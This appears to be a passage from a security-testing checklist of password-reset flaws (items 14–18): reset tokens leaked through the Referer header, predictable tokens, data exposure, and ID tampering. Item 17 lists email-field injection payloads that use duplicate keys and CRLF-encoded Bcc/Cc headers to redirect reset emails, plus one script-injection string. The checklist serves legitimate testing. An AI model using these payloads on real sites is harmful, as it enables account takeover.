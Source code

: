 
## 14. Reset password link exposed via referrer header
- **Issue:** Reset token sent in HTTP Referrer header.
- **Risk:** Token leak when user clicks external links.
- **Test:** While performing a password reset, click on any social media icon like Facebook or Gmail. Intercept the request and check if the reset token appears in the Referrer header

---

## 15. Sensitive information exposure in response during reset
- **Issue:** Response reveals sensitive victim information (email, username).
- **Risk:** Information disclosure aiding attackers.
- **Test:** Inspect responses for unintended data leaks.

---

## 16. Predictable tokens based on email similarity
- **Issue:** Tokens generated in a way that tokens for similar emails resemble each other.
- **Risk:** Attackers can predict or forge tokens.
- **Test:** Compare tokens from similar email addresses for patterns.
> Request password reset for: `victim@gmail.com` ➜ token = `abcdef123456`
> Request password reset for: `xvictim@gmail.com` ➜ token = `abcdef123460`

---

## 17. Email address manipulation in reset requests
- **Issue:** System does not sanitize or validate email input properly, allowing injection of multiple or malformed emails.
- **Risk:** Can lead to unintended behavior or information leaks.
- **Test:** Send reset requests with multiple or manipulated email fields.
```json
{"email":"victim@mail.com","email":"attacker@mail.com"}
{"email":"attacker@mail.com\nvictim@mail.com"}
{"email":"Victim@mail.com,attacker@mail.com","email":"Victim@mail.com"}
{"email":"Victim@mail.com","email":"Victim@mail.com%0Abcc:Attacker@mail.com"}
{"email":"Victim@mail.com","email":"Victim@mail.com,Attacker@mail.com"}
{"email":"Victim@mail.com;Attacker@mail.com","email":"Victim@mail.com"}
{"email":"\"attacker\"@mail.com"}
{"email":"attacker@mail.com\nCc:admin@company.com"}
{"email":"victim@mail.com\r\nBcc:attacker@mail.com"}
{"email":"victim@mail.com%0D%0ABcc:attacker@mail.com"}
{"email":"victim@mail.com%0aContent-Type:text/html%0a%0a<script>alert(1)</script>"}
{"email":"victim@mail.com","email":"victim+test@mail.com"}
```

---

## 18. Response manipulation to expose victim's email
- **Issue:** Attacker can manipulate request/response to reveal victim’s email.
- **Risk:** Information leakage.
- **Test:** Try changing parameters or IDs in responses to access other users’ data `id=1000 ➜ id=1001`.

---